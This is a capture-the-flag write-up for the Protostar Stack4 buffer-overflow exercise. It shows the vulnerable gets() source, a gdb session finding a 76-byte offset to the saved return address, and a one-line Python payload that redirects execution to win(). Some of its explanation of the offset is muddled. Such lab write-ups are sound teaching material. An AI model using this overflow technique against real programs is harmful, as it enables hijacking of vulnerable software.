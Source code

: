 ```
TL;DR -> ` python -c "print 'A'*76 + '\xf4\x83\x04\x08'" | ./stack4`
```

# Stack4

URL: https://exploit.education/protostar/stack-four/
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

- A variety of introductory papers into buffer overflows may help.
  gdb lets you do “run < input”
  EIP is not directly after the end of buffer, compiler padding can also increase the size.

Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

# Writeup

Here, we have to find the padding. I have done that using `$ebp` and `$eip` pointer.

```
user@protostar:/opt/protostar/bin$ gdb ./stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) r
Starting program: /opt/protostar/bin/stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program exited with code 0160.
(gdb) info frame
No stack.
(gdb) info frames
Undefined info command: "frames".  Try "help info".
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   %ebp
0x08048409 <main+1>:    mov    %esp,%ebp
0x0804840b <main+3>:    and    $0xfffffff0,%esp
0x0804840e <main+6>:    sub    $0x50,%esp
0x08048411 <main+9>:    lea    0x10(%esp),%eax
0x08048415 <main+13>:   mov    %eax,(%esp)
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
(gdb) break *0x0804841d
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info frame
Stack level 0, frame at 0xbffff7c0:
 eip = 0x804841d in main (stack4/stack4.c:16); saved eip 0xb7eadc76
 source language c.
 Arglist at 0xbffff7b8, args: argc=1, argv=0xbffff864
 Locals at 0xbffff7b8, Previous frame's sp is 0xbffff7c0
 Saved registers:
  ebp at 0xbffff7b8, eip at 0xbffff7bc
(gdb) x/24x $esp
0xbffff760:     0xbffff770      0xb7ec6165      0xbffff778      0xb7eada75
0xbffff770:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff790:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7b0:     0x08048400      0x00000000      0xbffff838      0xb7eadc76
(gdb)
```

The `$eip` pointer is `0xbffff7bc` and the stack starts from `0xbffff7bc` as the hex value for `A` is `0x41`.

Getting the difference of `$eip` and `$ebp` will give use the length of payload, that is `76`.

At last, appending the `win` function address to payload will solve the problem!

You will get the address of `win` function using `x win` from GDB.

Payload: `python -c "print 'A'*76 + '\xf4\x83\x04\x08'"`

---

One liner solution:
`python -c "print 'A'*76 + '\xf4\x83\x04\x08'" | ./stack4`
